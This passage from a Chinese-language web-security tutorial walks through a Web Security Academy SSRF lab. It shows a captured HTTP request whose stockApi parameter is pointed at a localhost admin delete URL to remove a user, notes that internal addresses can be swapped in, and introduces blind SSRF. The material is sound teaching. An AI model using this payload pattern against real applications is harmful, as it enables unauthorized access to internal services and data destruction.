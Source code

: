发送报文后，我们惊喜地观察到页面下方确实暴露出来了Web应用的管理页面。接着尝试点击Delete按钮，去删除用户，可是发现收到的响应如下：

![图片](https://static001.geekbang.org/resource/image/69/d7/69e8c984ed71a30b5baebe32feab39d7.png?wh=955x295)

我们可以看到，该请求被拒绝了，这是因为Web应用对管理接口进行了边界限制，不允许外网用户在非管理员登录状态下对其进行访问。于是，我想起了 **利用SSRF方式穿越这一边界**。

![图片](https://static001.geekbang.org/resource/image/e1/76/e159061e6f0ae69f180ebb43637c3276.png?wh=813x291)

首先我们查看删除按钮对应的链接，接着再次点击检查库存，将捕获到报文中的接口改为删除所对应的链接。

```plain
POST /product/stock HTTP/1.1
Host: ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net
Cookie: session=6yXqSaAliJJjyWYmdK8kQfAeMSoMxoYt; session=WjZYVShyY7v3E3tfhT55IGh0hmVYXyAA
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

stockApi=http://localhost/admin/delete?username=carlos

```

这样，我们发现用户carlos就被我们成功删除了，我们通过利用该应用的服务器发起了删除的请求，从而绕过了边界对我们行为的限制。

在这个示例中，我们使用SSRF攻击对Web应用的本地服务器进行了操作。但事实上，我们还可以对内网中的服务器进行攻击，例如我知道内网中的一个地址，我们想要利用SSRF攻击对其进行操作， **只需要将localhost改为它的内网地址即可**。

学习完这个典型的SSRF漏洞之后，我们还需要学习SSRF中一个特殊的类别——Blind SSRF漏洞。

### Blind SSRF攻击

当我们可以诱使应用程序向提供的URL发出后端HTTP请求，但后端对于这个HTTP请求的响应未在前端页面展示，这就是Blind SSRF攻击。

一般来说，Blind SSRF漏洞的危害会低于普通SSRF漏洞，因为我们不能轻易利用该漏洞从后端系统检索敏感数据，而是要类似于之前学习的SQL带外注入一样， **通过一些带外的方式将敏感数据输出**。

到这里，你已经明白了SSRF的攻击方式以及原理，接下来我们来学习SSRF攻击可能造成的后果。

## SSRF攻击的危害

SSRF的危险程度其实与Web应用内网的防御强度相关。
